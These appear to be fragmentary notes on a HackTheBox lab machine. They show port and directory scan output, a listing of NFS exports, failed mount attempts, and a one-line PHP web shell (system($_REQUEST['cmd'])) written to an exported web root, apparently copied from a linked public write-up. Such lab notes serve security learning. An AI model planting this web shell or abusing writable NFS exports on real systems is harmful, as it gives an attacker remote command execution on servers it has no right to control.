

└─$ nmap 10.10.11.191      
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-20 12:32 EST
Nmap scan report for 10.10.11.191
Host is up (0.27s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
111/tcp  open     rpcbind
2049/tcp open     nfs
3077/tcp filtered orbix-loc-ssl
5566/tcp filtered westec-connect
5678/tcp filtered rrac
7402/tcp filtered rtps-dd-mt

[####################] - 0s     30000/30000   0/s     http://10.10.11.191/images/ => Directory listing (add -e to scan)
[####################] - 0s     30000/30000   0/s     http://10.10.11.191/js/ => Directory listing (add -e to scan)
[####################] - 0s     30000/30000   0/s     http://10.10.11.191/css/ => Directory listing (add -e to scan)
403      GET        9l       28w      277c http://10.10.11.191/server-status

  

```
┌──(kali㉿kali)-[~/drupwn]
└─$ showmount -e 10.10.11.191       
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *

```

unable to mount

```
┌──(root㉿kali)-[/home/kali/drupwn]
└─# mount -t nfs 10.10.111.191:/home/ross /mnt
^C
                                                                                                                    
┌──(root㉿kali)-[/home/kali/drupwn]
└─# mount -t nfs 10.10.111.191:/var/www/html /mnt
^C
                                                   
```

php command line

```
dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' 
<?php
  system($_REQUEST[cmd]);
?>
dummy@hacky:/$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/0xdf.php


```

https://0xdf.gitlab.io/2022/11/21/htb-squashed.html